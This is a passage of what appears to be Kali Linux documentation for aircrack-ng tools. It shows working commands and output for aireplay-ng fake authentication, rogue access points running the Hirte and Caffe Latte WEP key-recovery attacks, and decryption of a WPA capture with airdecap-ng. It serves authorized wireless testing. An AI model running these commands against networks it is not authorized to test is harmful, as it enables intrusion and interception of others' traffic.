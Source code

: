 ```
root@kali:~# aireplay-ng -1 6000 -e FBI-Van-24 -a F0:F2:49:82:DF:3B -h 3c:46:d8:4e:ef:aa wlan0mon
12:49:59  Waiting for beacon frame (BSSID: F0:F2:49:82:DF:3B) on channel 6

12:50:06  Sending Authentication Request (Open System)
```

## airbase-ng Usage Examples

### Hirte Attack – Access Point Mode

The Hirte attack attempts to retrieve a WEP key via a client. This example creates an access point on channel 6 (`-c 6`) with the specified ESSID (`-e TotallyNotATrap`) and uses the cfrag WEP attack (`-N`), setting the WEP flag in the beacons (`-W 1`).

```
root@kali:~# root@kali:~# airbase-ng -c 6 -e TotallyNotATrap -N -W 1 wlan0mon
15:51:11  Created tap interface at0
15:51:11  Trying to set MTU on at0 to 1500
15:51:11  Trying to set MTU on wlan0mon to 1800
15:51:11  Access Point with BSSID 3C:46:D8:4E:EF:AA started.
```

### Caffe Latte Attack – Access Point Mode

As with the Hirte attack, the Caffe Latte Attack attempts to retrieve a WEP key via a client. This example creates an access point on channel 6 (`-c 6`) with the specified ESSID (`-e AlsoNotATrap`) and uses the Caffe Latte WEP attack (`-L`), setting the WEP flag in the beacons (`-W 1`).

```
root@kali:~# airbase-ng -c 6 -e AlsoNotATrap -L -W 1 wlan0mon
15:56:05  Created tap interface at0
15:56:05  Trying to set MTU on at0 to 1500
15:56:05  Access Point with BSSID 3C:46:D8:4E:EF:AA started.
```

## airdecap-ng

With a given ESSID (`-e test`) and password (`-p biscotte`), decrypt the specified WPA capture (`-r /usr/share/doc/aircrack-ng/examples/wpa.cap`).

```
root@kali:~# tcpdump -r wpa.cap
reading from file wpa.cap, link-type PRISM_HEADER (802.11 plus Prism header)
03:01:06.609737 Beacon (test) [1.0* 2.0* 5.5* 11.0* Mbit] ESS CH: 7, PRIVACY[|802.11]
03:01:06.678714 EAPOL key (3) v1, len 95
03:01:06.678928 Acknowledgment RA:00:0d:93:eb:b0:8c (oui Unknown)
03:01:06.681525 EAPOL key (3) v1, len 119
03:01:06.681732 Acknowledgment RA:00:09:5b:91:53:5d (oui Unknown)
03:01:06.684370 EAPOL key (3) v1, len 119
03:01:06.684584 Acknowledgment RA:00:0d:93:eb:b0:8c (oui Unknown)
03:01:06.685502 EAPOL key (3) v1, len 95
03:01:06.685708 Acknowledgment RA:00:09:5b:91:53:5d (oui Unknown)
03:01:06.686775 Data IV:12000 Pad 20 KeyID 0
03:01:06.686984 Acknowledgment RA:00:0d:93:eb:b0:8c (oui Unknown)
03:01:06.688139 Data IV:12000 Pad 20 KeyID 0
03:01:06.688344 Acknowledgment RA:00:09:5b:91:53:5d (oui Unknown)
```
